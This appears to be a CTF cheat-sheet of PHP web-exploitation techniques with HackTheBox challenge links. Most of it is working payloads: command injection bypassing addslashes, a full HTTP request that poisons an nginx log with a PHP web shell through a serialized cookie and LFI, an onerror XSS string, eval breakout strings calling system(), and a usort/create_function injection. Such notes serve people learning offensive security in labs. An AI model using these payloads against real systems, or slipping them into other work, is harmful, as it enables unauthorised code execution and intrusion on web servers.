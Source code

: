 # addslashes()
This function escapes single & double quotes.
```php
# Assuming that the variable is passed to eval
${system($_GET[1])}&1=whoami;
# If it's not passed to eval
${eval($_GET[1])}&1=system($_GET[2]);&2=whoami;
```
- Challenge: https://app.hackthebox.com/challenges/lovetok
> **References:** 
> https://www.programmersought.com/article/30723400042/

# include() 
Only generates a warning, i.e., E_WARNING, and continue the execution of the script.

**Case**:  From LFI to log poisoning
- Burpsuite request example:
```txt
# Cookie Serialization exploit
# O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}

GET /?c=cat+/flag_qlvM8 HTTP/1.1
Host: 178.128.163.152:30522
User-Agent: Mozilla/5.0 <?php system($_GET['c']); ?> Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ==
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
```
- Challenge: https://app.hackthebox.com/challenges/224

> **References:**
> https://www.hackingarticles.in/apache-log-poisoning-through-lfi/
# htmlentities() & htmlspecialchars
It doesn't encode single quotes by default
```html
'onerror='alert("XSS")''
```
> **Reference**:
> https://github.com/X-Vector/XSS_Bypass/blob/master/htmlspecialchars%20-%20htmlentities/README.md

# Loose Comparison
- `===`
```php
<?php
if(NULL === NULL){ echo "Equal"; } else{ echo "not Equal"; }
?>
// Equal
```
- `==`
```php
<?php 
if(NULL == ''){ echo "Equal"; } else{ echo "not Equal"; }
?>
// Equal
```
# Eval
Always pay attention to the behaviour and aim to fix the syntax in order to acheive code execution. Taking the code below as an example, we can acheive code execution by payloads such like:
- `".system("ls")."`
```php
<?php
  if (!isset($_GET["name"])) {
    header("Location: /?name=hacker");
    die();
  }
  require "header.php";
?>
  $str="echo \"Hello ".$_GET['name']."!!!\";";
  eval($str);
?>
<?php
  require "footer.php";
?>
```
The challenge here is to break out of the code syntax and keep a clean syntax. There are many ways to do it:
-   By adding dummy code: `".system('uname -a'); $dummy="`
-   By using comment: `".system('uname -a');#` or `".system('uname -a');//`
# usort
When ordering information, developers can use two methods:
-   `order by` in a SQL request;
-   `usort` in PHP code.
The function `usort` is often used with the function `create_function` to dynamically generate the "sorting" function, based on user-controlled information. If the web application lacks potent filtering and validation, this can lead to code execution.
 ```
?order=id);}system('uname%20-a');//
```